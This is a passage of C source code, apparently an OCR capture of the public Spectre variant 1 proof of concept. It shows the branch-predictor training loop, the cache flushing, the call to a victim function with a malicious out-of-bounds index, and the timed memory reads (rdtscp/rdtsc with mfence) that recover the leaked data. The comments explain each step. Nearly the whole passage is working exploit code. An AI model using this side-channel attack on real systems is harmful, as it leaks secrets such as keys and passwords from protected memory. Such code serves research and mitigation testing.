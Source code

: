 ```
      _mm_clflush( & array1_size);
#else
      /* Alternative to using clflush to flush the CPU cache */
      /* Read addresses at 4096-byte intervals out of a large array.
         Do this around 2000 times, or more depending on CPU cache size. */

      for(l = CACHE_FLUSH_ITERATIONS * CACHE_FLUSH_STRIDE - 1; l >= 0; l-= CACHE_FLUSH_STRIDE) {
        junk2 = cache_flush_array[l];
      } 
#endif

      /* Delay (can also mfence) */
      for (volatile int z = 0; z < 100; z++) {}

      /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
      /* Avoid jumps in case those tip off the branch predictor */
      x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
      x = (x | (x >> 16)); /* Set x=-1 if j&6=0, else x=0 */
      x = training_x ^ (x & (malicious_x ^ training_x));

      /* Call the victim! */
      victim_function(x);

    }

    /* Time reads. Order is lightly mixed up to prevent stride prediction */
    for (i = 0; i < 256; i++) {
      mix_i = ((i * 167) + 13) & 255;
      addr = & array2[mix_i * 512];

    /*
    We need to accuratly measure the memory access to the current index of the
    array so we can determine which index was cached by the malicious mispredicted code.

    The best way to do this is to use the rdtscp instruction, which measures current
    processor ticks, and is also serialized.
    */

#ifndef NORDTSCP
      time1 = __rdtscp( & junk); /* READ TIMER */
      junk = * addr; /* MEMORY ACCESS TO TIME */
      time2 = __rdtscp( & junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
#else

    /*
    The rdtscp instruction was instroduced with the x86-64 extensions.
    Many older 32-bit processors won't support this, so we need to use
    the equivalent but non-serialized tdtsc instruction instead.
    */

#ifndef NOMFENCE
      /*
      Since the rdstc instruction isn't serialized, newer processors will try to
      reorder it, ruining its value as a timing mechanism.
      To get around this, we use the mfence instruction to introduce a memory
      barrier and force serialization. mfence is used because it is portable across
      Intel and AMD.
      */

      _mm_mfence();
      time1 = __rdtsc(); /* READ TIMER */
      _mm_mfence();
      junk = * addr; /* MEMORY ACCESS TO TIME */
```